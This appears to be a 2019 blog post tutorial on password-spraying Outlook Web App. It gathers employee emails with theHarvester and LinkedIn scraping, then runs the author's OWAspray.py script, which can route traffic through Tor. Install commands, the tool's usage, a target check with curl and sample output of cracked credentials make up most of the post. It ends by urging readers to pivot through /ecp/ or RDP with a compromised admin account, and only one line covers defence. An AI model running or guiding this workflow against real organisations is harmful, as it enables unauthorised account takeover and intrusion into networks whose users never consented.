 ```yaml
---
layout: post
title:  "Reverse brute force attack (or just Password Spraying) using OWAspray.py"
date:   2019-06-02 01:00:00 -0400
keywords: "python, OSINT, tools, owa"
comments: true
description: "How to use OWAspray.py to hack into Outlook Web App?"
---
```


Weak passwords are still a thing. I've being worried about this for a while. Weak passwords aren't new and we should pay attention to this since a malicious person can go further from a compromised account. In only 5 minutes anybody can access to a network and move laterally once inside. As a Proof of Concept I did publish a simple Python script called [OWAspray.py](https://github.com/davidtavarez/owaspray) to test the top 10 worst password we possibly find.

First we're going to collect using [theHavester](https://github.com/laramies/theHarvester); theHarvester is a very simple, yet effective tool designed to be used in the early stages of a penetration test. Use it for open source intelligence gathering and helping to determine a company's external threat landscape on the internet. Let's install it:

```bash
$ git clone https://github.com/laramies/theHarvester.git
$ cd theHarvester
$ virtualenv -p python3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

Good. Now, let's find some info:

```bash
$ python theHarvester.py -d DOMAIN -b all -l 200
...
[*] Emails found: X
----------------------
...
FIRSTNAMELASTNAME@DOMAIN
FIRSTNAMELASTNAME@DOMAIN
...
[*] Hosts found: Y
---------------------
...
mail.DOMAIN:IP
...
```

We'll see a lot of information but right now we only want to collect the emails and the URL. This time we have the next pattern: `FIRSTNAME+LASTNAME@DOMAIN`. Cool, with this we go to LinkedIn and get more usernames. This tool looks pretty good [linkedin2username](https://github.com/initstring/linkedin2username), you can try it; I will be (probably) writing some script for this later. Now, because we have the email pattern we can write a list of usernames to test.

Let's the magic begin...

## OWAspray.py

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. These attacks have become one of the favorite technique of attackers, as it has proved to be very effective for advancing through a network after having established a foothold inside. I did write a script to test this, let's try it:

```bash
$ git clone https://github.com/davidtavarez/owaspray
$ cd owaspray
$ virtualenv -p python2.7 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ python spray.py --help

usage: spray.py [-h] -t TARGET -u USERNAME_FILE -p PASSWORD_FILE
                [--tor-host TOR_HOST] [--tor-port TOR_PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL of the target.
  -u USERNAME_FILE, --username_file USERNAME_FILE
                        The list of users.
  -p PASSWORD_FILE, --password_file PASSWORD_FILE
                        The list of passwords to try.
  --tor-host TOR_HOST   Tor server.
  --tor-port TOR_PORT   Tor port server.
```

Now we can confirm the URL:

```bash
$ curl -L -I https://mail.DOMAIN/
HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Content-Length: 0
Location: https://mail.DOMAIN/owa/
...

HTTP/1.1 440 Login Timeout
Content-Length: 43
Content-Type: text/html; charset=utf-8
...
Connection: close
...
```

Good. Let's hack this!

```bash
$ python spray.py -t https://mail.DOMAIN -u users.txt -p passwords.txt
[+] FIRSTNAMELASTNAME:PASSWORD
[+] FIRSTNAMELASTNAME:PASSWORD
...
```

:)

The important question is: how far can I go from here? Well, if you got an admin account, you can move to `/ecp/` and have fun; also, find some open `RDP` will be fine I guess... what else? I don't know, ***use your creativity!***

### What should we do to protect users

It's very simple: use better passwords, do not repeat passwords, enforce 2F Auth and create a max-attempt policy.
